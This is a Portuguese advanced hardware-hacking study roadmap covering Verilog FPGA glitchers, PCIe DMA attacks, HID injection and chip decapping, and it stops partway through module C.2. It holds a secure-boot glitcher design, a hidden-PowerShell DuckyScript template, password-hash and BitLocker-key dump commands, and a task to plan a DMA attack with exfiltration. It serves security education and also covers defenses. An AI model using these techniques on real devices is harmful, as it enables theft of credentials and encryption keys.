

# Roadmap: Hardware Hacking Avançado

> **Pré-requisito**: Ter completado (ou ter nível equivalente) o [Roadmap Básico](hardware_hacking_roadmap.md). Este roadmap assume que você já domina UART/SPI/I2C, sabe extrair e analisar firmware, consegue usar Ghidra, e tem prática com QEMU e ChipWhisperer básico.

> **Sobre este roadmap**: Aqui você sai de **operador de ferramentas** para **criador de ferramentas e pesquisador**. Os projetos são mais longos, a teoria é mais densa, e os resultados são publicáveis. Esse é o caminho de quem descobre zero-days, publica em BlackHat, e é contratado para auditar silício.

> **Conexões com os Roadmaps de Engenharia Elétrica**:
> Este roadmap avançado é onde os [roadmaps de EE](ee_roadmap_index.md) se tornam diferenciais críticos:
> - **Fase A (FPGA)**: [Pilar 3](ee_digital_embarcados_roadmap.md) Mód 3.1-3.8 (lógica digital/FSMs → base para Verilog), [Pilar 2](ee_eletronica_roadmap.md) Mód 2.7 (MOSFET → circuito crowbar do glitcher)
> - **Fase B (Barramentos)**: [Pilar 2](ee_eletronica_roadmap.md) Mód 2.17-2.18 (linhas de transmissão, impedância → integridade de sinal), [Pilar 0](ee_matematica_fisica_roadmap.md) Mód 0.34 (ondas EM → propagação em trilhas)
> - **Fase C (Silício)**: [Pilar 0](ee_matematica_fisica_roadmap.md) Mód 0.35-0.36 (semicondutores, junção PN → entender transistores no die), [Pilar 2](ee_eletronica_roadmap.md) Mód 2.1-2.7 (componentes → reconhecer em die shots)
> - **Fase E (Criptoanálise)**: [Pilar 0](ee_matematica_fisica_roadmap.md) Mód 0.24-0.25 (probabilidade, correlação → base de CPA), [Pilar 5](ee_controle_sinais_roadmap.md) Mód 5.3 e 5.13-5.16 (Fourier, DSP → análise de power traces)
> - **Fase F (OT/Automotive)**: [Pilar 4](ee_eletrotecnica_automacao_roadmap.md) Mód 4.12-4.14 (CLPs, Ladder, sensores industriais → entender os sistemas sendo atacados), Mód 4.15-4.17 (sistemas de potência → contexto de infraestrutura crítica)

## Visão Geral

| Fase | Módulos | Foco | Horas Est. |
|------|---------|------|-----------|
| **A — FPGAs & Ferramentas Custom** | A.1–A.5 | Verilog, design digital, ferramentas de ataque | ~18h |
| **B — Barramentos de Alta Velocidade** | B.1–B.4 | PCIe/DMA, USB 3.0, DDR, integridade de sinal | ~14h |
| **C — Engenharia Reversa de Silício** | C.1–C.4 | Decapping, microscopia, SEM/FIB, RE de chips | ~12h |
| **D — TEE & Arquiteturas Seguras** | D.1–D.4 | TrustZone, SGX, Secure Boot avançado, hypervisors | ~14h |
| **E — Criptoanálise Avançada** | E.1–E.4 | Modelos estatísticos, masking bypass, crypto custom | ~14h |
| **F — OT, Automotivo & Industrial** | F.1–F.4 | CAN bus, Modbus/PROFINET, PLCs, automotive | ~14h |
| | | **Total estimado** | **~86h** |

### Progressão



---

## Nota: O Salto Mental

> **ATENÇÃO**
> **Este roadmap é fundamentalmente diferente do primeiro.** No roadmap básico, você aprendeu a usar ferramentas para explorar hardware. Aqui, você vai:
> - **Projetar hardware** (FPGAs, placas custom) em vez de apenas analisar
> - **Entender física** (integridade de sinal, semicondutores) em vez de apenas "conectar fios"
> - **Criar matemática** (modelos estatísticos para side-channel) em vez de apenas rodar notebooks
> - **Ler papers acadêmicos** como fonte primária (não só blog posts)
>
> A IA continua sendo co-piloto, mas agora para: entender papers, debugar HDL, gerar testbenches, e simular circuitos. Os limites da IA ficam mais evidentes aqui — ela não vai projetar seu glitcher FPGA, mas pode ajudar com a sintaxe Verilog.

---

## Fase A — FPGAs e Desenvolvimento de Ferramentas Customizadas

### Módulo A.1: Lógica Digital e Introdução a HDLs
**Tempo: 3h**

#### O que memorizar
- **Portas lógicas fundamentais**: AND, OR, NOT, XOR, NAND, NOR — e suas tabelas-verdade
- **Circuitos combinacionais**: multiplexador, decodificador, somador — saída depende apenas das entradas atuais
- **Circuitos sequenciais**: flip-flops (D, JK, SR), registradores, contadores — saída depende de entradas + estado anterior
- **Máquinas de estado finito (FSM)**: Mealy vs Moore — fundamentais para implementar protocolos em FPGA
- **Verilog básico**: diferença entre `wire` (combinacional) e `reg` (sequencial), `always @(posedge clk)`, `assign`, `module`
- **Diferença Verilog vs VHDL**: Verilog = mais usado em segurança/hacking (sintaxe estilo C), VHDL = mais verboso (estilo Ada)

#### Intuição
FPGAs são "hardware programável" — um chip com milhares de blocos lógicos que você configura para criar QUALQUER circuito digital. Enquanto software roda instruções sequencialmente, FPGA executa tudo em **paralelo** e em **nanossegundos**. Por isso FPGAs são essenciais para hardware hacking avançado: você precisa injetar um glitch de tensão com precisão de 1ns? Um Arduino leva ~62.5ns por instrução, mas um FPGA pode reagir em 1 ciclo de clock (10ns @100MHz, ou menos). Precisa capturar dados de um barramento a 1GHz? Software não tem chance, FPGA sim.

**Analogia**: se Python é uma receita culinária (passo a passo, sequencial), Verilog é a planta de uma cozinha (tudo existe ao mesmo tempo, em paralelo). Você não "executa" Verilog — você **sintetiza** ele em circuito real.

#### Projeto: "Primeiros Passos em Verilog"
1. **Instale ferramentas open-source de FPGA**:
   ```bash
   # Yosys (síntese) + nextpnr (place & route) + Icarus Verilog (simulação)
   sudo apt install yosys nextpnr-ice40 iverilog gtkwave
   ```
2. **Escreva e simule circuitos básicos** em Verilog:
   ```verilog
   // Exemplo: contador de 8 bits com reset
   module counter(
       input wire clk,
       input wire rst,
       output reg [7:0] count
   );
       always @(posedge clk or posedge rst) begin
           if (rst) count <= 8'b0;
           else count <= count + 1;
       end
   endmodule
   ```
3. **Crie um testbench** para simular:
   ```verilog
   module counter_tb;
       reg clk = 0;
       reg rst = 0;
       wire [7:0] count;
       
       counter uut(.clk(clk), .rst(rst), .count(count));
       
       always #5 clk = ~clk; // clock 100MHz
       
       initial begin
           $dumpfile("counter.vcd");
           $dumpvars(0, counter_tb);
           rst = 1; #20; rst = 0;
           #2000; $finish;
       end
   endmodule
   ```
4. **Simule e visualize** com GTKWave:
   ```bash
   iverilog -o counter_tb counter.v counter_tb.v
   vvp counter_tb
   gtkwave counter.vcd  # visualizar formas de onda
   ```
5. Exercícios adicionais (incremental):
   - Multiplexador 4:1
   - Divisor de clock (gerar 1Hz a partir de 100MHz)
   - FSM que detecta uma sequência específica de bits
6. **Entregável**: Código Verilog + testbenches + screenshots do GTKWave

#### Erros Comuns
- Confundir `=` (blocking assignment, combinacional) com `<=` (non-blocking, sequencial)
- Esquecer de incluir todas as condições em um `always` block (gera latches indesejados)
- Não entender que Verilog **não é software** — tudo acontece ao mesmo tempo

---

### Módulo A.2: Arquitetura de FPGAs e Plataformas
**Tempo: 2h**

#### O que memorizar
- **Componentes internos**: CLBs (Configurable Logic Blocks), IOBs (I/O Blocks), Block RAM, DSP slices, PLLs/DCMs (clock management)
- **Famílias populares**: Xilinx (agora AMD) Artix/Spartan, Intel (ex-Altera) Cyclone/MAX, Lattice iCE40/ECP5
- **FPGAs para segurança**: iCE40 (barata, open-source toolchain), Artix-7 (ChipWhisperer), Spartan-7
- **Bitstream**: arquivo que configura o FPGA — é basicamente o "firmware" do FPGA
- **Plataformas de dev acessíveis**:
  - iCEstick (~$25) — iCE40, totalmente open-source
  - TinyFPGA BX (~$38) — open-source
  - Arty A7 (~$130) — Artix-7, mais capaz
  - ChipWhisperer-Lite (~$250) — FPGA + target board para side-channel

#### Intuição
Escolher um FPGA é como escolher entre um Arduino e um PC gamer — depende do que você quer fazer. Para aprender e fazer glitching básico, um iCE40 de $25 é suficiente. Para captura de power traces em alta velocidade ou implementar DMA attacks, você precisa de um Artix-7 ou maior. O toolchain open-source (Yosys + nextpnr) funciona perfeitamente para iCE40 e ECP5, mas para Xilinx/Intel você precisa das ferramentas proprietárias (Vivado/Quartus — gratuitas para FPGAs menores).

#### Projeto: "Tinkering com FPGA (Virtual ou Físico)"
1. **Sem hardware**: use o simulador [EDA Playground](https://www.edaplayground.com/) para escrever e simular Verilog online gratuitamente
2. **Com hardware barato**: compre um iCEstick e faça o tutorial [FPGA-101](https://github.com/Obijuan/open-fpga-verilog-tutorial) (em inglês, mas muito didático)
3. Sintetize e programe um LED blinker no FPGA real (ou simulate):
   ```verilog
   module blinky(input clk, output led);
       reg [23:0] counter = 0;
       always @(posedge clk) counter <= counter + 1;
       assign led = counter[23]; // pisca a ~0.7Hz com clock de 12MHz
   endmodule
   ```
4. Estude a arquitetura do iCE40: leia as primeiras 20 páginas do [iCE40 Technology Library](https://www.latticesemi.com/products/fpga) — entenda CLBs, IOBs, e PLLs
5. **Entregável**: LED blinker funcionando (ou simulado) + notas sobre arquitetura FPGA

---

### Módulo A.3: UART/SPI/I2C em FPGA — Construindo Suas Próprias Ferramentas
**Tempo: 3h**

#### O que memorizar
- **UART TX em Verilog**: FSM que serializa um byte (idle → start bit → 8 data bits → stop bit) usando divisor de clock para baud rate
- **SPI Master em Verilog**: FSM que gera CLK, controla CS, e shifta dados por MOSI enquanto lê MISO
- **I2C Master**: mais complexo — FSM com start/stop conditions, arbitragem, ACK/NACK, clock stretching
- **Clock domain crossing**: quando dados cruzam entre domínios de clock diferentes, precisam de sincronização (FIFO, double-flop)
- **Significado prático**: ao implementar esses protocolos em FPGA, você entende cada BIT do protocolo — não fica mais dependente de bibliotecas

#### Intuição
No roadmap básico, você **usou** ferramentas para falar UART/SPI/I2C. Agora, você vai **construir** essas ferramentas do zero em FPGA. Parece redundante, mas o entendimento é completamente diferente. Quando você implementa um UART TX em Verilog, contando cada ciclo de clock para cada bit, entende o protocolo no nível mais fundamental possível. Isso permite: sniff protocolos modificados/proprietários, injetar dados com timing perfeito, e construir ferramentas de man-in-the-middle em hardware.

#### Projeto: "Bus Pirate Caseiro"
1. **Implemente UART TX/RX em Verilog**:
   - TX: FSM que aceita um byte + trigger, serializa com baud rate configurável
   - RX: FSM que detecta start bit, amostra no centro de cada bit, entrega byte completo
   - Testbench: conecte TX ao RX (loopback), envie bytes e verifique
2. **Implemente SPI Master**:
   - FSM: idle → assert CS → clock out data (MOSI) + clock in data (MISO) → deassert CS
   - Testbench: simule leitura de um chip flash (envie comando 0x03 + endereço, receba dados)
3. **Bônus**: integre UART + SPI para criar um "Bus Pirate" minimalista:
   - UART recebe comandos do PC ("read 0x000000")
   - FPGA executa a operação SPI
   - Resultado volta pelo UART
4. **Simule tudo** com Icarus Verilog + GTKWave
5. Se tiver FPGA física: sintetize e teste com um chip flash SPI real (ex: W25Q16)
6. **Prompt IA**: *"Revise minha implementação UART TX em Verilog. Está correta a divisão de clock para 115200 baud com input clock de 12MHz?"*
7. **Entregável**: Código Verilog completo + testbenches + formas de onda

---

### Módulo A.4: Glitcher FPGA — Voltage Fault Injection
**Tempo: 3h**

#### O que memorizar
- **Voltage glitching**: abaixar momentaneamente VCC do target causa instrução corrompida
- **Parâmetros do glitch**: offset (quando, medido a partir de um trigger), width (duração, tipicamente 1-100ns), repeat (quantos glitches)
- **Circuito de glitch**: MOSFET que curto-circuita VCC para GND brevemente — controlado pela FPGA
- **Trigger**: evento observável (ex: borda de um pino GPIO durante boot) que sincroniza o glitch
- **Crowbar circuit**: circuito com MOSFET que "puxa" o VCC para baixo quando ativado — FPGA controla o timing
- **ChipWhisperer implementação**: o CW usa FPGA Artix-7 para gerar glitches com resolução de ~10ns

#### Intuição
Este é o módulo que te separa de 95% dos hardware hackers. Um voltage glitcher FPGA é como um **sniper temporal**: dispara um pulso elétrico exatamente no momento em que o processador alvo está tomando uma decisão crítica (verificar senha, checar assinatura, ler fuse de proteção). A precisão necessária (nanossegundos) é impossível com software — só FPGA ou ASIC. Com um glitcher funcional, você pode bypassar secure boot, extrair chaves de proteção, e subverter praticamente qualquer MCU que não tenha contramedidas robustas.

#### Projeto: "DIY Glitcher"
1. **Estude a implementação do ChipWhisperer** (open-source!):
   ```bash
   git clone https://github.com/newaetech/chipwhisperer
   # Examine o módulo de glitching
   ls chipwhisperer/hardware/victims/firmware/
   ls chipwhisperer/hardware/capture/chipwhisperer-lite/
   ```
2. **Analise o Verilog do módulo de glitch**:
   - Encontre o módulo que gera o pulso de glitch
   - Entenda como o offset e width são controlados
   - Trace o trigger system
3. **Implemente seu próprio glitcher minimalista em Verilog**:
   ```verilog
   module glitcher(
       input wire clk,          // clock principal (ex: 100MHz)
       input wire trigger,      // trigger externo
       input wire arm,          // habilitar glitch
       input wire [15:0] offset,// delay após trigger (em ciclos)
       input wire [7:0] width,  // duração do glitch (em ciclos)
       output reg glitch_out    // saída para MOSFET
   );
       reg [15:0] counter;
       reg [1:0] state; // IDLE, WAIT, GLITCH
       
       localparam IDLE = 0, WAIT = 1, GLITCH = 2;
       
       always @(posedge clk) begin
           case (state)
               IDLE: begin
                   glitch_out <= 0;
                   counter <= 0;
                   if (arm && trigger) state <= WAIT;
               end
               WAIT: begin
                   counter <= counter + 1;
                   if (counter >= offset) begin
                       state <= GLITCH;
                       counter <= 0;
                   end
               end
               GLITCH: begin
                   glitch_out <= 1;
                   counter <= counter + 1;
                   if (counter >= width) begin
                       glitch_out <= 0;
                       state <= IDLE;
                   end
               end
           endcase
       end
   endmodule
   ```
4. **Simule** com vários offsets e widths — observe as formas de onda
5. **Estude o circuito analógico** (crowbar com MOSFET):
   - Use IA: *"Projete um circuito crowbar com MOSFET N-channel para voltage glitching. VCC do alvo é 3.3V. O gate será controlado por um pino de FPGA de 3.3V. Inclua resistor de gate e diodo de proteção."*
6. **Entregável**: Código Verilog + simulação + esquemático do circuito crowbar

---

### Módulo A.5: Projeto Integrado — FPGA Attack Platform
**Tempo: 3h**

#### O que memorizar
- **Integração de subsistemas**: glitcher + UART sniffer + SPI reader + controle via PC = plataforma de ataque completa
- **Interface com PC**: UART ou USB (usando FTDI/CP2102) para controle e coleta de dados
- **Python de controle**: script que configura parâmetros, arma o glitcher, e coleta resultados
- **Sweep de parâmetros**: varrer offset e width automaticamente (milhares de combinações) para encontrar o glitch correto
- **Reprodutibilidade**: cada tentativa deve ser logada (offset, width, resultado) para análise posterior

#### Intuição
Ferramentas como o Bus Pirate, JTAGulator e ChipWhisperer foram criadas por pesquisadores que precisavam de algo que não existia. Este módulo te coloca no mesmo caminho: você integra tudo que construiu nos módulos anteriores numa plataforma coesa. Mesmo que nunca publique como produto, o processo de integração consolida profundamente seu entendimento de cada subsistema.

#### Projeto: "Mini-ChipWhisperer"
1. **Integre em um único projeto Verilog**:
   - UART RX para receber comandos do PC
   - UART TX para enviar resultados
   - Módulo de glitch (do A.4)
   - Módulo SPI master (do A.3) para ler flash do target
   - Módulo trigger (detectar borda em pino externo)
2. **Defina protocolo de comandos** via UART:
   ```
   CMD_SET_OFFSET <16-bit value>
   CMD_SET_WIDTH  <8-bit value>
   CMD_ARM
   CMD_READ_SPI <24-bit address> <16-bit length>
   CMD_STATUS
   ```
3. **Escreva script Python de controle**:
   ```python
   import serial
   import struct
   
   class MiniCW:
       def __init__(self, port, baud=115200):
           self.ser = serial.Serial(port, baud)
       
       def set_offset(self, offset):
           self.ser.write(b'\x01' + struct.pack('>H', offset))
       
       def set_width(self, width):
           self.ser.write(b'\x02' + struct.pack('B', width))
       
       def arm(self):
           self.ser.write(b'\x03')
       
       def sweep(self, offset_range, width_range):
           """Varre parâmetros automaticamente"""
           results = []
           for offset in offset_range:
               for width in width_range:
                   self.set_offset(offset)
                   self.set_width(width)
                   self.arm()
                   result = self.ser.read(1)
                   results.append((offset, width, result))
                   if result == b'\x01':  # sucesso!
                       print(f"GLITCH! offset={offset}, width={width}")
           return results
   ```
4. **Simule** o sistema completo com testbench Verilog
5. **Entregável**: Projeto Verilog integrado + script Python + documentação da arquitetura

#### Checkpoint — Fim da Fase A
Antes de avançar, você deve conseguir:
- [ ] Escrever Verilog funcional (combinacional e sequencial) e simular com Icarus/GTKWave
- [ ] Implementar protocolos seriais (UART, SPI) em FPGA do zero
- [ ] Projetar um glitcher com controle preciso de timing
- [ ] Entender a diferença fundamental entre "programar software" e "projetar hardware"

---

## Fase B — Barramentos de Alta Velocidade

### Módulo B.1: Fundamentos de Integridade de Sinal
**Tempo: 2h**

#### O que memorizar
- **Por que alta velocidade é diferente**: acima de ~50MHz, fios se comportam como **linhas de transmissão**, não simples conexões
- **Impedância**: resistência + reatância. Descasamento de impedância causa **reflexões** que corrompem sinais
- **Terminação**: resistor na extremidade de uma linha para absorver reflexões (series, parallel, Thevenin)
- **Diafonia (crosstalk)**: sinal em um fio induz sinal em fio adjacente — piora com frequência
- **Equações fundamentais**:
  - Tempo de propagação: ~1ns por 15cm de trilha PCB
  - Rise time vs frequência: BW ≈ 0.35 / t_rise
  - Comprimento crítico: se tempo de propagação > 1/4 do rise time, precisa de terminação
- **Ferramentas**: osciloscópio com banda adequada (regra: BW ≥ 5x frequência do sinal)

#### Intuição
UART a 115200 baud é "DC" — os sinais são tão lentos que um fio de protoboard funciona perfeitamente. PCIe Gen3 roda a **8 GHz**. Nessa frequência, um pedaço de fio de 5cm é como uma antena que distorce tudo. Entender integridade de sinal é o que separa quem só faz "software de FPGA" de quem realmente consegue interceptar barramentos de alta velocidade. Sem esse conhecimento, seus sniffers físicos não vão funcionar.

**Analogia**: sinais de baixa velocidade são como gritar em uma sala vazia — todo mundo ouve claramente. Sinais de alta velocidade são como gritar em um estádio cheio — ecos (reflexões), barulho dos vizinhos (crosstalk), e a mensagem chega distorcida.

#### Projeto: "Signal Integrity Lab Virtual"
1. **Instale simulador SPICE** (circuito analógico):
   ```bash
   sudo apt install ngspice
   # Ou use LTspice (Windows/Wine) - mais capaz
   ```
2. **Simule uma linha de transmissão** com e sem terminação:
   - Modelo: fonte de sinal 100MHz → trilha PCB de 20cm → carga
   - Caso 1: sem terminação (observe as reflexões!)
   - Caso 2: com resistor de terminação 50Ω (reflexões desaparecem)
3. **Calcule** para uma trilha de PCIe Gen1 (2.5 GHz):
   - Qual impedância de linha é necessária? (resposta: 85Ω diferencial)
   - Qual o comprimento máximo antes de precisar de terminação?
   - Qual osciloscópio seria necessário para medir esses sinais?
4. **Entregável**: Simulações SPICE + cálculos + relatório de aprendizado

---

### Módulo B.2: PCIe e Ataques DMA
**Tempo: 3h**

#### O que memorizar
- **PCIe stack**: Physical Layer → Data Link Layer → Transaction Layer
- **DMA (Direct Memory Access)**: dispositivo PCIe lê/escreve RAM do host SEM envolver a CPU
- **IOMMU (VT-d / AMD-Vi)**: unidade que restringe quais endereços cada dispositivo PCIe pode acessar
- **Ataques DMA**: inserir placa PCIe maliciosa → ler toda a RAM → extrair chaves, senhas, tokens
- **Ferramentas**:
  - **PCILeech**: software open-source para DMA attacks (leitura/escrita de memória)
  - **PCIe Screamer**: placa FPGA M.2 para DMA attacks (~$150)
  - **EPIC Erebus**: open-hardware M.2 FPGA board para pesquisa PCIe
- **Defesas**: IOMMU habilitado, Secure Boot, Kernel DMA Protection (Windows 10+), Thunderbolt security levels

#### Intuição
PCIe é o barramento que conecta GPU, NVMe SSD, placa de rede e outros periféricos ao processador. Por design, os dispositivos PCIe podem acessar a memória RAM diretamente — é assim que GPUs e SSDs conseguem alta performance. O problema: se você conectar um dispositivo PCIe malicioso (uma placa FPGA disfarçada de placa de rede, por exemplo), ele pode ler TODA a memória do sistema. Isso inclui chaves de criptografia de disco (BitLocker), tokens de autenticação, e até a memória de processos sensíveis.

**É como conectar um pen drive, mas em vez de acessar apenas arquivos, ele acessa a RAM inteira.**

#### Projeto: "PCIe DMA Attack Lab (Simulado)"
1. **Instale o PCILeech** e estude a documentação:
   ```bash
   git clone https://github.com/ufrisk/pcileech
   git clone https://github.com/ufrisk/pcileech-fpga
   # Estude a documentação e o código-fonte
   ```
2. **Analise o design FPGA do PCILeech** (Verilog):
   - Entenda como o FPGA se apresenta como dispositivo PCIe
   - Como os TLPs (Transaction Layer Packets) são construídos para ler/escrever memória
3. **Sem hardware PCIe**, pratique com **memory forensics**:
   ```bash
   # Use Volatility para praticar análise de dumps de memória
   sudo apt install volatility3
   # Baixe memory dumps de CTFs ou samples
   volatility3 -f memory.dmp windows.info
   volatility3 -f memory.dmp windows.pslist
   volatility3 -f memory.dmp windows.hashdump
   ```
4. **Estude IOMMUs** e como funcionam as proteções:
   - *"Como o VT-d previne DMA attacks? Em que condições ele pode ser bypassado?"*
5. **Documente** um plano de ataque DMA completo: hardware necessário, setup, execução, exfiltração
6. **Entregável**: Análise do código PCILeech + prática com Volatility + plano de ataque documentado

---

### Módulo B.3: Segurança USB Avançada
**Tempo: 2.5h**

#### O que memorizar
- **USB protocol stack**: Physical → Link → Protocol → Application (Class drivers)
- **USB descriptors**: Device, Configuration, Interface, Endpoint — definem o que o dispositivo "é"
- **BadUSB**: reprogramar firmware do controlador USB para mudar identidade (teclado falso, rede falsa)
- **USB HID injection**: emular teclado para injetar keystrokes — funciona em qualquer OS sem driver
- **USB 3.x sniffing**: requer hardware dedicado (Cynthion, Total Phase Beagle USB 5000)
- **Ferramentas**: USBProxy, Facedancer, Cynthion, Rubber Ducky, bash bunny, GoodFET

#### Intuição
USB é uma porta de entrada quase universal — todo computador tem. O protocolo é extremamente complexo (a spec USB 3.2 tem 700+ páginas) e os sistemas operacionais confiam demais nos descriptors que o dispositivo reporta. Um microcontrolador de $5 pode se apresentar como teclado e digitar comandos em velocidade sobre-humana. Com USB mais avançado (Facedancer/Cynthion), você pode fazer **man-in-the-middle** em qualquer comunicação USB, interceptando e modificando dados em tempo real.

#### Projeto: "USB Attack & Defense"
1. **Estude o Facedancer/Cynthion** (USB MITM tool):
   ```bash
   pip3 install facedancer
   # Estude os exemplos
   git clone https://github.com/greatscottgadgets/facedancer
   ls facedancer/examples/
   ```
2. **Sem hardware**, simule um ataque HID:
   - Escreva um script DuckyScript (linguagem do Rubber Ducky):
     ```
     DELAY 3000
     GUI r
     DELAY 500
     STRING powershell -windowstyle hidden -command "..."
     ENTER
     ```
   - Use IA: *"Converta este DuckyScript para Arduino Leonardo (ATmega32U4) usando a biblioteca Keyboard.h"*
3. **Analise a estrutura de um descriptors USB** com `lsusb -v` em qualquer dispositivo conectado
4. **Estude defesas**: USBGuard (Linux), Group Policy (Windows), USB port blocking
5. **Entregável**: Payload DuckyScript + análise de descriptors + estudo de defesas

---

### Módulo B.4: DDR Memory Interception e Cold Boot
**Tempo: 2.5h**

#### O que memorizar
- **DDR interface**: parallel bus com clock diferencial (DDR = Double Data Rate — dados em subida E descida do clock)
- **Velocidades**: DDR4 @3200MT/s = 1600MHz efetivo, DDR5 @4800MT/s+ — impossível sniffar com equipamento normal
- **Cold Boot Attack**: RAM mantém dados por segundos/minutos após perder energia (especialmente se resfriada)
- **Processo**: desligar → congelar RAM com spray → mover para outro PC → boot com USB → dump da RAM
- **Dados em RAM**: chaves de criptografia de disco (BitLocker, LUKS, FileVault), tokens de sessão, senhas
- **Ferramentas**: INCEPTION (via FireWire/Thunderbolt DMA), bios_memimage, CaptureGUARD

#### Intuição
As velocidades de DDR modernos (GHz) tornam interception direta impraticável sem equipamento de $100K+. Mas existe uma via alternativa exploravelmente elegante: o **cold boot attack**. RAM DRAM é "esquecida" (capacitores descarregam), mas **não instantaneamente**. A temperatura ambiente, dados sobrevivem por segundos. Se você resfriar a RAM (lata de ar comprimido invertida, ou nitrogênio líquido), dados sobrevivem **minutos**. Combinado com DMA attack (PCIe/Thunderbolt/FireWire) para dump, você pode extrair chaves de criptografia de um laptop bloqueado.

#### Projeto: "Memory Forensics Avançada"
1. **Pratique extração de chaves de criptografia de dumps de memória**:
   ```bash
   # Instale findaes - ferramenta que busca chaves AES em dumps
   pip3 install findaes
   
   # Use Volatility com plugin para BitLocker
   volatility3 -f memory.dmp windows.bitlocker
   ```
2. **Analise um dump de memória de CTF**:
   - Extraia processos, conexões de rede, hashes de senha
   - Busque chaves de criptografia com findaes
3. **Pesquise e documente** o cold boot attack:
   - Quais sistemas são vulneráveis hoje?
   - Quais contramedidas existem (memory encryption, AMD SME/SEV, Intel TME)?
   - Custo e praticidade do ataque
4. **Prompt IA**: *"Explique como o AMD SME (Secure Memory Encryption) protege contra cold boot attacks e quais são suas limitações."*
5. **Entregável**: Relatório de memory forensics + análise de cold boot + estudo de contramedidas

#### Checkpoint — Fim da Fase B
- [ ] Entende por que alta velocidade requer cuidados especiais (impedância, reflexões)
- [ ] Sabe explicar como funciona um DMA attack via PCIe
- [ ] Consegue analisar dumps de memória com Volatility
- [ ] Entende os vetores de ataque USB avançados (BadUSB, MITM)

---

## Fase C — Engenharia Reversa de Silício

### Módulo C.1: Decapping e Preparação de Amostras
**Tempo: 2.5h**

#### O que memorizar
- **Decapping químico**: ácido nítrico fumegante (HNO₃ >90%) dissolve o encapsulamento epóxi, expondo o die de silício
- **Decapping mecânico**: dremel com disco de corte para remover epóxi — mais acessível, menos preciso
- **Decapping térmico**: heat gun + lâmina — funciona para pacotes cerâmicos
- **Segurança**: ácidos são extremamente perigosos — capote, óculos, luvas, capela com exaustão OBRIGATÓRIOS
- **Delayering**: remover camadas metálicas uma a uma para revelar estruturas do chip (ácido clorídrico + peróxido para alumínio, ácido fluorídrico para óxidos)
- **Resultado**: die exposto que pode ser imageado com microscópio óptico, SEM ou FIB

#### Intuição
Decapping é a "cirurgia" do chip. Você remove o encapsulamento plástico para acessar o silício nu — a "alma" do chip. É como abrir o crânio para ver o cérebro. A motivação em segurança: chips podem conter fuses de proteção, chaves OTP, e circuitos anti-tamper que são invisíveis pelo firmware. A única forma de vê-los (e potencialmente bypassá-los) é olhar o silício diretamente. É caro, destrutivo, e requer muito cuidado — mas quando todas as outras abordagens falharam, decap é a última cartada.

#### Projeto: "Estudo de Decapping e Die Analysis"
1. **NÃO tente decapping sem equipamento de segurança adequado e experiência com ácidos!**
2. **Estudo teórico**: assista à talk ["Silicon from the other side"](https://siliconpr0n.org/) e explore o repositório de die shots
3. **Explore o siliconpr0n.org**: base de dados de die shots de chips reais
   - Encontre die shots de chips conhecidos: ESP32, STM32, ATmega328
   - Identifique: seção de flash, SRAM, CPU core, periféricos, pads de I/O
4. **Estude os trabalhos de Ken Shirriff** (famoso por engenharia reversa de chips):
   - Blog: righto.com — análise detalhada de chips vintage
   - Identifique como ele mapeia transistores → portas lógicas → funções
5. **Analise die shots com ferramentas software**:
   - [Degate](https://github.com/DeGateCommunity/Degate): ferramenta open-source para engenharia reversa de die shots
   - Importe uma imagem de die shot e tente identificar componentes
6. **Entregável**: Relatório de análise de die shots de 3 chips + tentativa de identificação de blocos funcionais

---

### Módulo C.2: Microscopia e Imageamento
**Tempo: 2.5h**

#### O que memorizar
- **Microscópio óptico**: resolução ~200nm (suficiente para processos acima de 0.5µm / 500nm). Chips modernos usam processos de 7-14nm — insuficiente
- **SEM (Scanning Electron Microscope)**: feixe de elétrons varre a superfície, resolução ~1nm. Necessário para chips modernos
- **FIB (Focused Ion Beam)**: feixe de íons que pode **cortar** e **depositar** material no chip — permite circuit editing
- **Custo**: SEM usado ~$50K-100K, FIB ~$200K+. Universidades e labs nacionais frequentemente têm acesso
- **Alternativa acessível**: microscópio metalúrgico (~$500-2000) com câmera — suficiente para processos > 130nm

#### Intuição
Imagear um chip é como fazer tomografia de um circuito. O microscópio óptico funciona para chips "antigos" (anos 90-2000, processo 0.5µm+). Chips modernos (iPhone, GPU) exigem SEM, pois as features são menores que o comprimento de onda da luz visível — literalmente invisíveis ao microscópio óptico. O FIB é a ferramenta definitiva: com ele, você pode cortar uma trilha microscópica para desabilitar um circuito anti-tamper, ou criar uma nova conexão para expor um barramento interno. É cirurgia em escala nanométrica.

#### Projeto: "Análise de Die Shots de Alta Resolução"
1. **Baixe die shots de alta resolução** do [siliconpr0n.org](https://siliconpr0n.org/) ou [zeptobars.com](https://zeptobars.com/)
2. **Use Degate ou GIMP** para analisar as imagens:
   - Identifique as camadas metálicas superiores (M1, M2, ...)
   - Localize blocos funcionais: array de memória (padrão repetitivo), lógica (irregular), pads de I/O (perimetro)
   - Trace uma interconexão entre dois blocos
3. **Compare die shots** de chips da mesma família (ex: diferentes versões de STM32):
   - O que mudou? Novo bloco de memória? Periférico adicional?
